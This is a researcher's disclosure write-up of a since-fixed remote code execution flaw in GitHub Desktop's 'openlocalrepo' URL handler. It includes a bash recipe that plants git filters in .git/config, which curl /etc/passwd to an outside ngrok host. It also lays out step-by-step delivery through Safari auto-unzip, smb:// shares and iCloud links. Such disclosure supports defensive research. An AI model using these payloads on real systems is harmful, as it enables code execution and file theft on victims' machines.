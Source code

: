 # RCE in [GitHub Desktop](https://github.com/desktop/desktop) < 2.9.4

![](github_desktop_openlocalrepo_safari.gif)

**[High-res Safari PoC screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**


- [RCE in GitHub Desktop < 2.9.4](#rce-in-github-desktop--294)
- [Intro](#intro)
- [Summary](#summary)
- [Details (< v2.9.4)](#details--v294)
  - ["openlocalrepo" URL command](#openlocalrepo-url-command)
  - [Crafting a "poisoned" git repository](#crafting-a-poisoned-git-repository)
  - [Achieving code execution](#achieving-code-execution)
  - [Delivering a malicious repository on local FS](#delivering-a-malicious-repository-on-local-fs)
  - [Attack scenarios](#attack-scenarios)
- [Impact & fix](#impact--fix)

# Intro

It's obvious why `git` was [selected by Google](news/google-commits-to-solving-security-problems-in-open-source-projects-like-git-and-laravel/) for a security audit as a top-priority open-source project git.

`git` is a dumb version tracker used by every software engineer for collaboration.

`git`'s destiny is to make developers' collaboration efficient. Therefore, `git` needs different functionalities that execute local programs for remote communication, compression, code diffing, and formatting.

On top of this, git is a fundamental primitive for deploying, scaling, and managing source code and releases. Things like git-lfs make git accessible to a broad scope of potential users.

# Summary

`openlocalrepo` [URI command](https://github.com/desktop/desktop/blob/18238077aa1e4851e710cfa66587cd4fd597bacd/app/src/cli/commands/open.ts#L35) in GitHub Desktop < 2.9.4 allows importing a crafted repository with malicious payload in `/.git/config` on the targeted machine leading to code execution.

> See this folder for exploits and related utils.

# Details (< v2.9.4)

## "openlocalrepo" URL command

Unlike `openrepo` URI command, `openlocalrepo` doesn't ask the user to confirm local repository import.
`github-mac://openlocalrepo/<path_to_local_repo>` command immediately imports the specified local repository into GitHub Desktop app.

## Crafting a "poisoned" git repository

It's possible to insert malicious git configuration in `.git/config`. Of course, it's impossible to drop such a repo through `git clone`, but who said we need `git clone`?

```bash
mkdir -p /tmp/evil
cd /tmp/evil
git init
cat > ./.git/config<<- EOM
[filter "any"]
    smudge = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/smudge
    clean = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/clean
EOM
touch example
git add ./example
git commit -m 'commit'
echo "*  text  filter=any" > .gitattributes
```

> Make sure to replace the test payload
> To confirm the config is poisoned, run `git status` inside the repo

This repo has [git filters](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) that GitHub Desktop will execute as soon as the repo is imported into the app.
When Desktop imports the repo, it'll run `any` filter for `.gitattributes` because this file hasn't been committed yet.

## Achieving code execution

At this point, we know the following things:

- importing a local repo using `openlocalrepo` URI command doesn't require user confirmation (except for running the URL command in the browser).
- importing a local repo may lead to code execution

That means **running a URL command can lead to malicious code execution**.

## Delivering a malicious repository on local FS

Approach to payload delivery depends on what we already know about the target, specifically:

**Q:** What's the targeted device's OS/browser/username?

> it's possible to guess OS/browser from User-Agent
> it's possible to uncover OS username by navigating user browser to `ssh://` link (if the user confirms -> an SSH session will start with the current username).
> There are other esoteric methods like stealing the OS username by sending an HTML file to the target (and disclosing the full path using JS later).

**Safari: `"Open 'safe' files"` isn't that safe**

**By default**, Safari has **"Open 'safe' files after downloading"** option enabled.
Thus, running `location.href = "./payload.zip"` makes Safari unzipping the archive to `~/Downloads/evil` **without any user interaction**.

**Delivering malicious files with `smb://`**

If it's macOS or Windows, we can drop the folder with `location.href="smb://publicshare"`
In macOS, it requires not more than a single click from the targeted user.

**Esoteric methods: Keybase, Google Drive, etc.**

I described some alternative payload delivery methods (Keybase, GDrive, iCloud, etc.) in [this write-up about `.terminal` files](https://medium.com/@metnew/exploiting-popular-macos-apps-with-a-single-terminal-file-f6c2efdfedaa).

**Delivering the payload w iCloud links (macOS 10.15)**

URLs like `icloud-sharing://www.icloud.com/iclouddrive/0sW3_56zbqY0Exxxxxxxxxxxx#evil` on macOS 10.15 automatically download folders from the web to the user's local iCloud files.

**Delivery summary**

**Hypothesis**: delivering a malicious folder to the device doesn't require more than one click from the target.

> Because `smb://` strategy allows doing this on both macOS and Win in no more than one click and **doesn't have any specific requirements** (e.g., OS username, OS settings, etc.).

> **NOTE:** I don't have a Win machine. But from what I remember, Win could mount public shares without triggering a dialog at all. Can someone check this, please?

## Attack scenarios

**Safari attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**

1. User visits the attacker's website
2. The website downloads a malicious archive. The archive with the malicious repo is extracted to `/Users/user/Downloads/archive`
3. The website runs `location.href = 'github-mac://openlocalrepo//Users/user/Downloads/archive'`.
4. pwn.

**smb:// attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QNDr_qzO-KpKMbKEbZ5YW0IhxBHLuJ_e/view?usp=sharing)**

> PoC took a bit long, but it's possible to fine-tune the smb server to skip that pause I had in the screencast

1. User visits the attacker's website
2. The website opens `location.href = "smb://guest:guest@publicshare"`. (user confirms)
3. The archive with the malicious repo is mounted to `/Volumes/share/evil`
4. The website runs `location.href = 'github-mac://openlocalrepo//Volumes/share/evil'`.
5. pwn.

# Impact & fix

Attacker can run arbitrary code on the targeted device using Github Desktop protocol handler.

As of version 2.9.4, GitHub Desktop asks for confirmation when opening a local repository :)

See [this PR](https://github.com/desktop/desktop/pull/12935).

**Timeline**

- Aug 29, 2021 - initial report
- Sep 9, 2021 - the vulnerability is confirmed
- Sep 10 2021 - pull request with [fix](https://github.com/desktop/desktop/pull/12935) is available.
- Sep 10, 2021 - GitHub awarded $2K bounty.

**Bounty concerns**

I had a slight feeling the bounty was too small. Similar bugs in GitHub Desktop were awarded $5K and $10K bounties. GitHub declares they pay bounties only for Critical issues. The above-described vulnerability requires conditions to exploit, so GitHub Security Team decided to track it as a low severity issue. I'm somewhat ok with this. Maybe I was just too much excited about my finding :)

**Further research**

In the following write-up, I'll share how I made over $50K+ on some git bugs and features. Stay tuned :)
